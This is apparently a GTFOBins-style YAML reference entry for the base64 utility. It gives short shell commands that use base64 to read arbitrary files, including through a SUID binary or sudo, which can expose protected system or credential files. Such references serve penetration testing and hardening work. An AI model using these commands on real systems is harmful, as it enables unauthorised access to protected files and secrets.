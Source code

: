 ```yaml
---
name: base64
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        base64 "$LFILE" | base64 --decode
  suid:
    - code: |
        LFILE=file_to_read
        ./base64 "$LFILE" | base64 --decode
  sudo:
    - code: |
        LFILE=file_to_read
        sudo base64 "$LFILE" | base64 --decode
---
```

